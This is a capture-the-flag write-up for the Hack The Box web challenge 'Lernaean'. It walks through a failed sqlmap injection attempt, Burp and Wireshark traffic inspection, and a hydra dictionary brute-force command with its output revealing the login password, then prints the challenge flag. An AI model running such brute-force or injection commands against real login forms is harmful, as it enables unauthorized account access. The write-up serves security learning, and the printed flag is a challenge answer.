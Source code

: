 # WEB CHALLENGE: LERNAEAN

## Challenge Description
Your target is not very good with computers. Try and guess their password to
see if they may be hiding anything!

```
host: 88.198.233.174 port:33971
```

```
    <html>
    <head>
        <title>Login - Lernaean</title>
    </head>
    <body style="background-color: #cd4e7b;">
        <center>
            <br><br><br>
            <h1><u>Administrator Login</u></h1>
            <h2>--- CONFIDENTIAL ---</h2>
            <h2>Please do not try to guess my password!</h2>
            <form method="POST">
                <input type="password" name="password"><br><br>
                <input type="submit" value="Submit">
            </form>
        </center>
    </body>
    </html>
```

## SQLMAP
Let's try SQLMAP to see if SQL injection might work (turns out it doesn't)..

```
$ sqlmap -u http://88.198.233.174:33971/ --data="password=' or '1=1" --tamper=space2comment
```
## BURPSUITE
Let's see if we can examine the HTTP traffic between us and the server by using
burpsuite as our browser proxy to understand what is being passed around..

```
<REQUEST>
POST / HTTP/1.1
Host: 88.198.233.174:33971
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:33971/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

password=test
</REQUEST>

<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 18:32:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 474
Connection: close
Content-Type: text/html; charset=UTF-8

Invalid password!
</RESPONSE>
```

Okay.. that tells us that `password` is the variable being passed to the server.

## WIRESHARK
Let's use wireshark just to confirm what is happening..

```
$ sudo wireshark -i eth0 -k
```

```
SOURCE: 10.0.2.15 DESTINATION: 88.198.233.174 PROTOCOL: HTTP INFO: POST / HTTP1.1 (application/x-www-form-urlencoded)

HTML Form URL Encoded: application/x-www-form-urlencoded
  Form item: "password" = "test"
    Key: password
    Value: test
```

## HYDRA
Okay.. now let's try using `hydra` to mimic these requests and brute force our
way through a dictionary attack..

```
$ hydra 88.198.233.174 -s 33971 http-form-post "/:user=^USER^&password=^PASS^:Invalid password!" -l user -P /usr/share/wordlists/rockyou.txt
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-30 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33971//:user=^USER^&password=^PASS^:Invalid password!
[33971][http-post-form] host: 88.198.233.174   login: user   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-30 17:13:41
```

Weeeeeeee! Looks like we found a valid password.

## LOOKING FOR THE FLAG
Trying the password we found on the form gives us a `Ooops! Too slow` response
on this page: `http://88.198.233.174:33971/noooooooope.html`..

.. but if we use burpsuite to analyze the response from the server, we find
some hidden info..

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 22:17:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
</RESPONSE>
```
